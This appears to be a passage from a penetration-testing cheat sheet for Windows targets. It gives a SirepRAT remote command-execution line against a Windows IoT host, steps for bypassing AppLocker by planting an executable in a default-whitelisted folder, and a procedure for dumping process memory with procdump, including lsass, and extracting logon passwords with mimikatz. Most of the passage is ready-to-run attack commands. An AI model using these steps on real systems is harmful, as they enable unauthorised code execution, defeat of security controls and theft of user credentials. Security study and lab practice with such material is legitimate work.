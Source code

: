 	python SirepRAT.py 192.168.3.17 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c echo {{userprofile}}"

**Just be carreful with the "as_logged_on_user" argument, maybe it's better to no use it.**


# PRIVESC
## Bypass AppLocker
There are many ways to bypass AppLocker.

If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: C:\Windows\System32\spool\drivers\color - This is whitelisted by default.

Go ahead and use Powershell to download an executable of your choice locally, place it the whitelisted directory and execute it.

## Processes Exploit
### DUMP A PROCESS IN A FILE

- To get the processes

		Get-Process

- Download Sysinternals Suite - https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite
- unzip it
- upload it and execute it to the windows machine

		upload /path/to/folder/procdump64.exe

		.\procdump64.exe
		.\procdump64.exe -accepteula

		.\procdump64.exe -ma 4689(PID)

- download and extract info from the dump file from the windows machine

		download file.dmp

		cd /opt/evil-winrm/
		ls

		strings file.dmp | grep http or password etc...
		OR
		strings file.dmp | less
		/wordtolookfor

- If dump from lsass process, we can use mimikatz
https://book.hacktricks.xyz/windows/stealing-credentials

		//Load the dump
		mimikatz # sekurlsa::minidump lsass.dmp

		//Extract credentials
		mimikatz # sekurlsa::logonPasswords
